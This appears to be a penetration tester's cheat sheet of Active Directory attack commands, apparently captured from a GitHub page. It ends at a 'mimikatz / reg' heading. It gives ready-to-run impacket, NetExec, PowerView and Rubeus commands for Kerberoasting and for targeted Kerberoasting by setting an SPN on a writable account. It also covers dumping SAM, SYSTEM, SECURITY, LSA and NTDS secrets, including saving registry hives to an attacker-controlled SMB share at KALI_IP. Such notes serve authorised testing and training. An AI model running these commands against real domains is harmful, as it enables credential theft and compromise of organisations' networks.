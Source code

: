 # ***Kerberoast (Du)***
## impacket / nxc
```shell
# Impacket
impacket-GetUserSPNs -dc-ip `dc` `dom`/USER[:PASS] -hashes :HASH -request [ -request-user SPN ] -outputfile hashes.kerberoast

# NXC
nxc ldap 192.168.0.104 -u harry -p pass --kerberoasting output.txt
```
## PV / rubeus
```shell
# PowerView
Get-DomainUser -SPN
Get-DomainUser -SPN | Get-DomainSPNTicket -Format Hashcat | select -ExpandProperty Hash
Get-DomainUser -Identity <User> | Get-DomainSPNTicket -Format Hashcat | select -ExpandProperty Hash

# Rrubeus
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

***targeted Kerberoast***
***GenericWrite or GenericAll on user account** → could reset password OR could SET SPN for that user and Kerberoast → Now Kerberoast this user*
```shell
# 1 GET services of interest 
Get-DomainUser -SPN

# 2 SET our controlled user
Set-DomainObject -Identity TARGETUSER -Set @{serviceprincipalname='testdomain.local/myspnX'}

# 3 Now Kerberoast
# https://medium.com/@mayank_prajapati/all-you-need-to-know-about-kerberoasting-7215de0462c8
```
# *Dump SAM/SYSTEM/LSA/LSASS Hashes (LA)*
## impacket  / nxc
```shell
# secretsdump (Remote dump)
impacket-secretsdump `dom`/'AdminUser'[:'pass']@`tip` -hashes :HASH [ -k ccachefile -no-pass ]

# reg.py (Local dump in Kali)
# 1 Start smb server
impacket-smbserver smb . -smb2support [ -username user -password pass ]

# 2 Save each hive manually
impacket-reg `dom`/'AdminUser'[:'pass']@`tip` save -keyName 'HKLM\SAM' -o '\\KALI_IP\smb'
impacket-reg `dom`/'AdminUser'[:'pass']@`tip` save -keyName 'HKLM\SYSTEM' -o '\\KALI_IP\smb'
impacket-reg `dom`/'AdminUser'[:'pass']@`tip` save -keyName 'HKLM\SECURITY' -o '\\KALI_IP\smb'
# or all at once
impacket-reg `dom`/'AdminUser'[:'pass']@`tip` backup -o '\\KALI_IP\smb'

# 3
impcaket-secretsdump -sam 'sam' -security 'security' -system 'system' LOCAL

# NXC
nxc smb `tip` -u 'AdminUser' -p 'pass' --sam [ --lsa | --ntds ]
```
## mimikatz / reg